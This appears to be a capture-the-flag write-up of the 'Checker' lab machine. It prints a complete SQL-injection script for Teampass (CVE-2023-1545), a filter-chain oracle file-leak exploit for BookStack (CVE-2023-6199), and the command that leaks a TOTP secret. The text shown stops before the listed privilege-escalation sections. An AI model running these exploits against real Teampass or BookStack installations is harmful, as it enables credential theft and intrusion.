

## Table of Contents

- [Acknowledgement](#Acknowledgement)
- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Enumeration of Port 8080/TCP](#Enumeration-of-Port-8080TCP)
- [CVE-2023-1545: SQL Injection (SQLi) in Teampass](#CVE-2023-1545-SQL-Injection-SQLi-in-Teampass)
    - [Proof of Concept (PoC)](#Proof-of-Concept-PoC)
- [Cracking the Hash of bob](#Cracking-the-Hash-of-bob)
- [Teampass](#Teampass)
    - [Login](#Login)
    - [Enumerating Teampass](#Enumerating-Teampass)
- [BookStack](#BookStack)
    - [Login](#Login)
    - [Enumeration of BookStack](#Enumeration-of-BookStack)
    - [Multi-Factor Authentication](#Multi-Factor-Authentication)
- [Foothold](#Foothold)
    - [CVE-2023-6199: Local File Inclusion (LFI) via Server-Side Request Forgery (SSRF) in BookStack](#CVE-2023-6199-Local-File-Inclusion-LFI-via-Server-Side-Request-Forgery-SSRF-in-BookStack)
    - [Proof of Concept (PoC)](#Proof-of-Concept-PoC)
    - [Exploit Modification](#Exploit-Modification)
    - [Exploitation Preparation](#Exploitation-Preparation)
    - [Payload Execution](#Payload-Execution)
    - [Generating OTP](#Generating-OTP)
- [user.txt](#usertxt)
- [Enumeration](#Enumeration)
- [Reverse Engineering](#Reverse-Engineering)
    - [Investigating the Binary](#Investigating-the-Binary)
    - [Reversing with Ghidra](#Reversing-with-Ghidra)
    - [Functionality Breakdown](#Functionality-Breakdown)
    - [Potential Issues and Security Concerns](#Potential-Issues-and-Security-Concerns)
- [Privilege Escalation to root](#Privilege-Escalation-to-root)
    - [Winning the Race Condition](#Winning-the-Race-Condition)
    - [Exploit Development](#Exploit-Development)
        - [Proof of Concept (PoC)](#Proof-of-Concept-PoC)
- [root.txt](#roottxt)

## Acknowledgement

For this box our team members `Bushidosan` and `obskur3` carried the team through it completely. So a big shout-out right from the start for their amazing work on this box!

## Summary

With that out of the way, the box hosts `two applications` relevant for the `foothold` on port `80/TCP` and on port `8080/TCP`. The first application is called `BookStack` which is vulnerable to `CVE-2023-6199` also known as `Local File Inclusion (LFI) via Server-Side Request Forgery (SSRF)`. The second application is `Teampass` which suffers from `CVE-2023-1545` also known as `SQL Injection (SQLi) in Teampass`. For the Foothold it is necessary to first exploit the `SQLi` in order to receive a `username`and a `hash` which then grants access to `BookStack`. On `BookStack` additional credentials for a new user can be found and also hints about a so called `safe directory` within an existing `book`. Furthermore information about a potential `Multi-Faktor Authentication (MFA)` configuration is available too. The `second vulnerability` allows to exfiltrate the `TOTP Secret` of the `Google Authenticator` configuration which then can be used to get the `Verification code` which is needed in order to `successfully authenticate` via `SSH` and to grab the `user.txt`. After a quick `enumeration` the path for the `privilege escalation` to `root` shows up. It is possible to `execute` a `script` called `check-leak.sh` using `sudo`. The `script` utilized a `binary` called `check_leak` to verify if the `hashed password` of a user got leaked. Through `reverse engineering` it is possible to determine several `vulnerabilites` like `Shared Memory Persistence`, a `Predictable Shared Memory Key`, `Weak Memory Permissions` and a `Format String Vulnerability`. This can be exploited by using the same logic to win the `race condition` in order to `preemptively inject` a custom `payload` and `write some data` instead of `root`. By creating a custom `exploit` this will lead to `arbitrary code execution` as `root` and to `privilege escalation`.

## Reconnaissance

### Port Scanning

This box started with only port `22/TCP`, port `80/TCP` and port `8080/TCP` open as we figured out after our initial `port scan`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.57.127
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-24 07:59 CET
Nmap scan report for 10.129.57.127
Host is up (0.018s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:54:07:41:98:b8:11:b0:78:45:f1:ca:8c:5a:94:2e (ECDSA)
|_  256 8f:2b:f3:22:1e:74:3b:ee:8b:40:17:6c:6c:b1:93:9c (ED25519)
80/tcp   open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 403 Forbidden
8080/tcp open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.68 seconds
```

### Enumeration of Port 80/TCP

The web server on port `80/TCP` redirected us to `checker.htb` which we added to our `/etc/hosts` file.

- [http://10.129.57.127/](http://10.129.57.127/)


```c
┌──(kali㉿kali)-[~]
└─$ cat  /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.57.127   checker.htb
```

The website greeted us with a `login form` to an application called `BookStack`.

- [http://checker.htb/](http://checker.htb/)


Since we didn't had any `credentials` yet and since the `tech stack` didn't showed anything useful, we decided to move on.

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://checker.htb/
http://checker.htb/ [403 Forbidden] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.129.57.127], Title[403 Forbidden]
```

### Enumeration of Port 8080/TCP

On port `8080/TCP` we found another application called `Teampass`.

- [http://checker.htb:8080/](http://checker.htb:8080/)


It was the same here for the `tech stack` but we took a closer look at the `source` of the `website` and found a `subdomain` called `vault.checker.htb`.

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://checker.htb:8080/
http://checker.htb:8080/ [403 Forbidden] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.129.57.127], Title[403 Forbidden]
```


```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.57.127   checker.htb
10.129.57.127   vault.checker.htb
```

## CVE-2023-1545: SQL Injection (SQLi) in Teampass

Without finding any credentials it was time to do some research and in the process we found some resources about an `SQL Injection (SQLi)` vulnerability in `Teampass` also known as `CVE-2023-1545`.

- [https://github.com/nilsteampassnet/TeamPass/pulls?q=is%3Apr+is%3Amerged+](https://github.com/nilsteampassnet/TeamPass/pulls?q=is%3Apr+is%3Amerged+)
- [https://security.snyk.io/package/composer/nilsteampassnet%2Fteampass](https://security.snyk.io/package/composer/nilsteampassnet%2Fteampass)
- [https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612](https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612)
- [https://github.com/nilsteampassnet/teampass/commit/4780252fdb600ef2ec2758f17a37d738570cbe66](https://github.com/nilsteampassnet/teampass/commit/4780252fdb600ef2ec2758f17a37d738570cbe66)

### Proof of Concept (PoC)

Luckily for us there was also a `Proof of Concept (PoC)` available.

```c
```php
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

The `PoC` allowed us to extract two `hashes` from `Teampass`. One for the user `admin` and one for a user called `bob`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/files]
└─$ ./sqli_poc.sh http://checker.htb:8080
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

| Username |
| -------- |
| admin    |
| bob      |

## Cracking the Hash of bob

We took the `hashes` and fed them to `John the Ripper` which `cracked` the `hash` for `bob`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/files]
└─$ cat bob.hash 
$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/files]
└─$ sudo john bob.hash --wordlist=/usr/share/wordlists/rockyou.txt 
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cheerleader      (?)     
1g 0:00:00:06 DONE (2025-02-24 11:05) 0.1536g/s 127.1p/s 127.1c/s 127.1C/s caitlin..yamaha
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

| Username | Password    |
| -------- | ----------- |
| bob      | cheerleader |

## Teampass

### Login

The `credentials` worked on `Teampass` when we modified the `time value` to something like `9999`. We assumed that this defined how long the session would be last as a valid session.

- [http://checker.htb:8080/](http://checker.htb:8080/)


| Username | Password    | Value |
| -------- | ----------- | ----- |
| bob      | cheerleader | 9999  |

### Enumerating Teampass

We started `enumerating` the application and found the `version` of `Teampass` right of the bed on the bottom of the page.


| Version  |
| -------- |
| 3.0.0.21 |

We took a closer look into the `Password` section and found `credentials` for `BookStack` and for `SSH` along with a new `username`.




| Username        | Password               |
| --------------- | ---------------------- |
| bob@checker.htb | mYSeCr3T_w1kI_P4sSw0rD |

Of course we checked if the login via `SSH` as `bob` would grant us access but - nope - that would have been to easy.

```c
┌──(kali㉿kali)-[~]
└─$ ssh bob@10.129.57.127
The authenticity of host '10.129.57.127 (10.129.57.127)' can't be established.
ED25519 key fingerprint is SHA256:u+MO4ts76K9g5kfUQeWpsBr5N+EpHTMxGoQv4K7LFgg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.57.127' (ED25519) to the list of known hosts.
(bob@10.129.57.127) Password:
```

## BookStack

### Login

However the newly found `credentials` worked on `BookStack`.

- [http://checker.htb/login](http://checker.htb/login)


| Username | Password               |
| -------- | ---------------------- |
| bob      | mYSeCr3T_w1kI_P4sSw0rD |

### Enumeration of BookStack

The dashboard showed some `recent activity` and also had a `book` called `Linux Security` available for us to read.


A closer look revealed a `safe path` on `/backup/home_backup`.

- [http://checker.htb/books/linux-security/page/basic-backup-with-cp](http://checker.htb/books/linux-security/page/basic-backup-with-cp)


```c
/backup/home_backup
```

### Multi-Factor Authentication

As next step we moved on what the `profile section` of `bob` had us to offer. We found a `configuration option` for `Multi-Factor Authentication` which seemed not to be configured so far.

- [http://checker.htb/my-account/auth](http://checker.htb/my-account/auth)


## Foothold

### CVE-2023-6199: Local File Inclusion (LFI) via Server-Side Request Forgery (SSRF) in BookStack

After facing a dead end in our `enumeration` of `BookStack` we went back to searching for known vulnerabilities of the application.
<br>
Fortunately we stumbled upon `CVE-2023-6199` which described a `Local File Inclusion (LFI)` vulnerability through `Server-Side Request Forgery (SSRF)` in `BookStack`.

- [https://fluidattacks.com/advisories/imagination/](https://fluidattacks.com/advisories/imagination/)
- [https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/)
- [https://github.com/synacktiv/php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)

In order to work we needed to find the `token` of `bob` so we first had a look at the `documentation` and then we grabbed the `token` form the `source` of the `page`.

- [https://teampass-api.readthedocs.io/api/authorization.html](https://teampass-api.readthedocs.io/api/authorization.html)


| Token                                    |
| ---------------------------------------- |
| AsrvZTgvrTWbPnZRRuhit3erQ8m2QlKsK4OftJat |

### Proof of Concept (PoC)

For this `CVE` there was also kind of an `PoC` available but it needed some modification to `extract data` as `Base64 blob`.

```c
#!/usr/bin/env python3
import sys
import signal
import argparse
import json
from filters_chain_oracle.core.requestor import Requestor
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.bruteforcer import RequestorBruteforcer

"""
Class FiltersChainOracle, defines all the CLI logic.
- useful info -
This tool is based on the following script : https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py
Each step of this trick is detailed in the following blogpost : https://www.synacktiv.com/publications/php-filter-chains-file-read-from-error-based-oracle
"""
class FiltersChainOracle():
    def __init__(self):
        self.requestor = None
        self.bruteforcer = None

    """
    Function managing interuption
    """
    def signal_handler(self, sig, frame):
        print("[*] File leak gracefully stopped.")
        print("[+] File {} was partially leaked".format(self.requestor.file_to_leak))
        print(self.bruteforcer.base64)
        print(self.bruteforcer.data)
        if self.log_file:
                self.log_in_file("# The following data was leaked from {} from the file {}\n{}\n".format(self.requestor.target, self.requestor.file_to_leak, self.bruteforcer.data.decode("utf-8")))
        sys.exit(1)
    
    """
    Function managing log file
    """
    def log_in_file(self, content):
        print("[*] Info logged in : {}".format(self.log_file))
        with open(self.log_file, "a") as file:
            file.write(content)
            file.flush()

    """
    Function managing CLI arguments
    """
    def main(self):
        #signal management
        usage = """
        Oracle error based file leaker based on PHP filters.
        Author of the tool : @_remsio_
        Trick firstly discovered by : @hash_kitten
        ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        $ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
        [*] The following URL is targeted : http://127.0.0.1
        [*] The following local file is leaked : /test
        [*] Running POST requests
        [+] File /test leak is finished!
        b'SGVsbG8gZnJvbSBTeW5hY2t0aXYncyBibG9ncG9zdCEK'
        b"Hello from Synacktiv's blogpost!\\n"
        """
        # Parsing command line arguments
        parser = argparse.ArgumentParser(description=usage, formatter_class=argparse.RawTextHelpFormatter)
        parser.add_argument("--target", help="URL on which you want to run the exploit.", required=True)
        parser.add_argument("--file", help="Path to the file you want to leak.", required=True)
        parser.add_argument("--parameter", help="Parameter to exploit.", required=True)
        parser.add_argument("--data", help="Additionnal data that might be required. (ex : {\"string\":\"value\"})", required=False)
        parser.add_argument("--headers", help="Headers used by the request. (ex : {\"Authorization\":\"Bearer [TOKEN]\"})", required=False)
        parser.add_argument("--verb", help="HTTP verb to use POST(default),GET(~ 135 chars by default),PUT,DELETE", required=False)
        parser.add_argument("--proxy", help="Proxy you would like to use to run the exploit. (ex : http://127.0.0.1:8080)", required=False)
        parser.add_argument("--in_chain", help="Useful to bypass weak strpos configurations, adds the string in the chain. (ex : KEYWORD)", required=False)
        parser.add_argument("--time_based_attack", help="Exploits the oracle as a time base attack, can be improved. (ex : True)", required=False)
        parser.add_argument("--delay", help="Set the delay in second between each request. (ex : 1, 0.1)", required=False)
        parser.add_argument("--json", help="Send data as JSON (--json=1)", required=False)
        parser.add_argument("--match", help="Match a pattern in the response as the oracle (--match='Allowed memory size of')", required=False)
        parser.add_argument("--offset", help="Offset from which a char should be leaked (--offset=100)", required=False, type=int)
        parser.add_argument("--log", help="Path to log file (--log=/tmp/output.log)", required=False)
        args = parser.parse_args()
        # Time based attack management
        if args.time_based_attack:
            time_based_attack=args.time_based_attack
        else:
            time_based_attack=False
        # Delay management
        if args.delay:
            delay = args.delay
        else:
            delay = 0.0
        # Data management
        if args.data:
            try:
                json.loads(args.data)
            except ValueError as err:
                print("[-] data JSON could not be loaded, please make it valid")
                exit()
            data=args.data
        else:
            data="{}"
        # Headers management
        if args.headers:
            try:
                json.loads(args.headers)
            except ValueError as err:
                print("[-] headers JSON could not be loaded, please make it valid")
                exit()
            headers=args.headers
        else:
            headers="{}"
        # Verb management
        if args.verb:
            try:
                verb = Verb[args.verb]
            except KeyError:
                verb = Verb.POST
        else:
            verb = Verb.POST
        if args.in_chain:
            in_chain = args.in_chain
        else:
            in_chain = ""

        # Delay management
        json_input = False
        if args.json:
            json_input = True
        
        # Match pattern
        match = False
        if args.match:
            match = args.match
        
        # Offset from which a char should be leaked

        offset = 0
        if args.offset:
            offset = args.offset
        
        # Log file path
        self.log_file = False
        if args.log:
            self.log_file = args.log
            
        # Attack launcher
        self.requestor = Requestor(args.file, args.target, args.parameter, data, headers, verb, in_chain, args.proxy, time_based_attack, delay, json_input, match)
        self.bruteforcer = RequestorBruteforcer(self.requestor, offset)
        signal.signal(signal.SIGINT, self.signal_handler)

        # Auto fallback to time based attack

        self.bruteforcer.bruteforce()

        # Result parsing
        if self.bruteforcer.base64:
            print("[+] File {} leak is finished!".format(self.requestor.file_to_leak))
            print(self.bruteforcer.base64)
            print(self.bruteforcer.data)
            if self.log_file:
                self.log_in_file("# The following data was leaked from {} from the file {}\n{}\n".format(self.requestor.target, self.requestor.file_to_leak, self.bruteforcer.data.decode("utf-8")))
            exit()
        else:
            print("[-] File {} is either empty, or the exploit did not work :(".format(self.requestor.file_to_leak))
            time_based_attack = 1
            print("[*] Auto fallback to time based attack")
            self.requestor = Requestor(args.file, args.target, args.parameter, data, headers, verb, in_chain, args.proxy, time_based_attack, delay, json_input, match)
            self.bruteforcer = RequestorBruteforcer(self.requestor, offset)
            self.bruteforcer.bruteforce()
        
        if verb == Verb.GET:
            print("[*] You passed your payload on a GET parameter, the leak might be partial! (~135 chars max by default)")
        
        print(self.bruteforcer.base64)
        print(self.bruteforcer.data)

if __name__ == "__main__":
    filters_chain_oracle = FiltersChainOracle()
    filters_chain_oracle.main()
    sys.exit(0)
```

### Exploit Modification

We cloned the `repository` from `GitHub` and moved to `/filters_chain_oracle/core` to modify the `requestor.py` file.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Checker/files]
└─$ git clone https://github.com/synacktiv/php_filter_chains_oracle_exploit.git
Cloning into 'php_filter_chains_oracle_exploit'...
remote: Enumerating objects: 178, done.
remote: Counting objects: 100% (178/178), done.
remote: Compressing objects: 100% (95/95), done.
remote: Total 178 (delta 89), reused 150 (delta 62), pack-reused 0 (from 0)
Receiving objects: 100% (178/178), 34.26 KiB | 626.00 KiB/s, done.
Resolving deltas: 100% (89/89), done.
```

```c
┌──(kali㉿kali)-[/media/…/files/php_filter_chains_oracle_exploit/filters_chain_oracle/core]
└─$ ls -la
total 36
drwxrwx--- 1 root vboxsf    82 Feb 24 11:46 .
drwxrwx--- 1 root vboxsf    18 Feb 24 11:46 ..
-rwxrwx--- 1 root vboxsf 16786 Feb 24 11:46 bruteforcer.py
-rwxrwx--- 1 root vboxsf  6010 Feb 24 11:46 requestor.py
-rwxrwx--- 1 root vboxsf   303 Feb 24 11:46 utils.py
-rwxrwx--- 1 root vboxsf   157 Feb 24 11:46 verb.py
```

We basically added the `base64` `decode` and `encode` part to the function `req_with_response`.

```c
<--- CUT FOR BREVITY --->
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)
        # Make the request, the verb and data encoding is defined
<--- CUT FOR BREVITY --->
```

```c
<--- CUT FOR BREVITY --->
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        php_filter = base64.b64encode(f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'.encode()).decode()
        payload = f""
        # DEBUG print(php_filter)
        merged_data = self.parse_parameter(payload)
        # Make the request, the verb and data encoding is defined
<--- CUT FOR BREVITY --->
```

And also added the `import` for `base64`.

```c
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re
import base64
<--- CUT FOR BREVITY --->
```

To end up with the final modified version of `requestor.py`.

```c
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re
import base64

"""
Class Requestor, defines all the request logic.
"""
class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="{}", headers="{}", verb=Verb.POST, in_chain="", proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = headers
        self.verb = verb
        self.json_input = json_input
        self.match = match
        print("[*] The following URL is targeted : {}".format(self.target))
        print("[*] The following local file is leaked : {}".format(self.file_to_leak))
        print("[*] Running {} requests".format(self.verb.name))
        if data != "{}":
            print("[*] Additionnal data used : {}".format(data))
        if headers != "{}":
            print("[*] Additionnal headers used : {}".format(headers))
        if in_chain != "":
            print("[*] The following chain will be in each request : {}".format(in_chain))
            in_chain = "|convert.iconv.{}".format(in_chain)
        if match:
            print("[*] The following pattern will be matched for the oracle : {}".format(match))
        self.in_chain = in_chain
        self.data = json.loads(data)
        self.headers = json.loads(headers)
        self.delay = float(delay)
        if proxy :
            self.proxies = {
                'http': f'{proxy}',
                'https': f'{proxy}',
            }
        else:
            self.proxies = None
        self.instantiate_session()
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
            print("[+] Error handling duration : {}".format(self.time_based_attack))
        else:
            self.time_based_attack = False
        
    """
    Instantiates a requests session for optimization
    """
    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False


    def join(self, *x):
        return '|'.join(x)

    """
    Used to see how much time a 500 error takes to calibrate the timing attack
    """
    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32]*15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time

    """
    Used to parse the option parameter sent by the user
    """
    def parse_parameter(self, filter_chain):
        data = {}
        if '[' and ']' in self.parameter: # Parse array elements
            
            main_parameter = [re.search(r'^(.*?)\[', self.parameter).group(1)]
            sub_parameters = re.findall(r'\[(.*?)\]', self.parameter)
            all_params = main_parameter + sub_parameters
            json_object = {}
            temp = json_object
            for i, element in enumerate(all_params):
                if i == len(all_params) -1:
                    temp[element] = filter_chain
                else:
                    temp[element] = {}
                    temp = temp[element]
            data = json_object
        else:
            data[self.parameter] = filter_chain
        return merge_dicts(data, self.data)

    """
    Returns the response of a request defined with all options
    """
    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        php_filter = base64.b64encode(f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'.encode()).decode()
        payload = f""
        # DEBUG print(php_filter)
        merged_data = self.parse_parameter(payload)
        # Make the request, the verb and data encoding is defined
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                if self.json_input: 
                    requ = self.session.put(self.target, json=merged_data)
                else:
                    requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                if self.json_input:
                    requ = self.session.delete(self.target, json=merged_data)
                else:
                    requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                if self.json_input:
                    requ = self.session.post(self.target, json=merged_data)
                else:
                    requ = self.session.post(self.target, data=merged_data)
                return requ
        except requests.exceptions.ConnectionError :
            print("[-] Could not instantiate a connection")
            exit(1)
        return None

    """
    Used to determine if the answer trigged the error based oracle
    TODO : increase the efficiency of the time based oracle
    """
    def error_oracle(self, s):
        requ = self.req_with_response(s)

        if self.match:
            # DEBUG print("PATT", (self.match in requ.text))
            return self.match in requ.text 

        if self.time_based_attack:
            # DEBUG print("ELAP", requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01))
            return requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01)
        
        # DEBUG print("CODE", requ.status_code == 500)
        return requ.status_code == 500
```

### Exploitation Preparation

The `exploit` required a to have a `valid session` and so we grabbed our `JSON Web Token (JWT)` form the `Web Developer Tools`.


```c
eyJpdiI6InlYWHNnWUxHc2JEOTIwV21QTHBpMHc9PSIsInZhbHVlIjoia0htMCs4RXZta3YrRkpLazNhTHR3YXdIZ2M2allETkMwRVFPaXFRQ2t6eTlhOCtBS3ZDbWpXbGduTlZGdU9ROCtObnQrdzl6Wmp5MHhSWnR6WFg3U3FpMjRpeFpYSEJ3YUl4WFQzUW9hV1JHeEFwc1FDU2gvcUNkYW1zbE9sL28iLCJtYWMiOiI5Y2Q0YWQwZTgzNDYyMzBkZjRkYTc4ZTE4OWQzOWViNjUxODhiNWIzMTFjNGIyNTllYmRkNDUxZDNhYTkzYzc5IiwidGFnIjoiIn0%3D
```

Next we needed to have a `draft version` of a `book`. For that we just created a random `new book` and added a new `page` but we kept it in `editing mode` to ensure the `draft status`.


### Payload Execution

From the available `book` we knew about the `safe directory` and since we needed a `Verification code` in order to access the box in using `SSH`, there was the typical `.google_authenticator` file we were going to check to see if it existed and if we could extract it, using the `LFI` through `SSRF`.

- [https://github.com/google/google-authenticator-libpam](https://github.com/google/google-authenticator-libpam)

While our `new book` was still open as `draft` we put the `payload` together and waited until the `oracle attack` had finished to receive the `TOTP Secret`.

```c
┌──(venv)─(kali㉿kali)-[~/Downloads/php_filter_chains_oracle_exploit]
└─$ python3 filters_chain_oracle_exploit.py --target 'http://checker.htb/ajax/page/9/save-draft' --file '/backup/home_backup/home/reader/.google_authenticator' --verb PUT --parameter html --headers '{"X-CSRF-TOKEN":"0jGFTjzJeI7sqw2ePb57XgWuU83BLPLEOLXRFYuR", "Content-Type": "application/x-www-form-urlencoded", "Cookie":"bookstack_session=eyJpdiI6InNCcVc1Rm0vaGNoMWNRYmFsRWVyNUE9PSIsInZhbHVlIjoiYWhZRnhYYm0yV1VTMllrQzhRLzBpell3RFNOZFUrRDJoWmhyd0hDN1IvOGREN3ZZSjk5bklWUURSVXJmbUNsc2gvMlNOVGIzR0I5Y0syOHBtQ1FsUEY3UG11U0Z4WGZHNU03ZnFhdlRxT2VvN3RZV3kwcVh2L2wvdE5BNG1vcGkiLCJtYWMiOiJkMjQzM2VjMDQ2ZjRhMmQ5YmQ1MjE2OGUwOWY2ODUzNjQ1NTUwN2IzZTBlMGIwMWIzZTNhZjBjODhlNWM5OTZjIiwidGFnIjoiIn0%3D"}'
[*] The following URL is targeted : http://checker.htb/ajax/page/9/save-draft
[*] The following local file is leaked : /backup/home_backup/home/reader/.google_authenticator
[*] Running PUT requests
[*] Additionnal headers used : {"X-CSRF-TOKEN":"0jGFTjzJeI7sqw2ePb57XgWuU83BLPLEOLXRFYuR", "Content-Type": "application/x-www-form-urlencoded", "Cookie":"bookstack_session=eyJpdiI6InNCcVc1Rm0vaGNoMWNRYmFsRWVyNUE9PSIsInZhbHVlIjoiYWhZRnhYYm0yV1VTMllrQzhRLzBpell3RFNOZFUrRDJoWmhyd0hDN1IvOGREN3ZZSjk5bklWUURSVXJmbUNsc2gvMlNOVGIzR0I5Y0syOHBtQ1FsUEY3UG11U0Z4WGZHNU03ZnFhdlRxT2VvN3RZV3kwcVh2L2wvdE5BNG1vcGkiLCJtYWMiOiJkMjQzM2VjMDQ2ZjRhMmQ5YmQ1MjE2OGUwOWY2ODUzNjQ1NTUwN2IzZTBlMGIwMWIzZTNhZjBjODhlNWM5OTZjIiwidGFnIjoiIn0%3D"}
[+] File /backup/home_backup/home/reader/.google_authenticator leak is finished!
RFZEQlJBT0RMQ1dGN0kyT05BNEs1TFFMVUUKIiBUT1RQX0FVVEgK
b'DVDBRAODLCWF7I2ONA4K5LQLUE\n" TOTP_AUTH\n'
```

| TOTP Secret                |
| -------------------------- |
| DVDBRAODLCWF7I2ONA4K5LQLUE |

### Generating OTP

Now with the the `TOTP Secret` in our pockets we moved to a website which provided the option to configure `TOTP` using the `Secret`.

- [https://totp.app/](https://totp.app/)


